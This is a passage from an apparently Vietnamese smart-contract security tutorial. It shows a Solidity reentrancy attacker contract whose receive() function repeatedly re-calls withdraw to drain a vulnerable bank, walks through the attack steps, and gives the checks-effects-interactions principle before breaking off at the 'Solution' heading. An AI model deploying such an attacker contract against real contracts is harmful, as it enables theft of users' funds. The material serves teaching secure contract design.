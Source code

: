 ```solidity
contract Attacker {
    VulnerableBank public bank;
    uint public count;

    constructor(address _bank) {
        bank = VulnerableBank(_bank);
    }

    // Bước 1: Deposit 1 ETH
    function attack() external payable {
        require(msg.value == 1 ether);
        bank.deposit{value: 1 ether}();
        bank.withdraw(1 ether);
    }

    // Bước 2: Receive được gọi khi nhận ETH
    receive() external payable {
        count++;
        if (count < 10) {
            // ⚡ Gọi lại withdraw() trước khi balance được trừ
            bank.withdraw(1 ether);
        }
    }
}
```

**Kịch bản tấn công:**

```
1. Attacker deposit 1 ETH vào bank
2. Attacker gọi withdraw(1 ETH)
3. Bank gửi 1 ETH cho Attacker → Kích hoạt receive()
4. receive() gọi lại withdraw(1 ETH) (balance vẫn là 1 ETH!)
5. Bank lại gửi 1 ETH → receive() lại được gọi
6. Lặp lại 10 lần → Attacker rút được 10 ETH chỉ với 1 ETH ban đầu
7. Bank bị hút cạn tiền
```

---

### 🧭 Orient (Định hướng)

Luôn hoàn thành **tất cả công việc nội bộ** trước khi tương tác với bất kỳ contract nào bên ngoài. Hãy coi việc gọi một contract khác như việc "mở cửa cho kẻ lạ vào nhà" - bạn phải dọn dẹp, khóa két tiền trước.

**Nguyên tắc vàng:**

> "Kiểm tra → Thay đổi → Tương tác"

---

### ✅ Solution (Giải pháp)
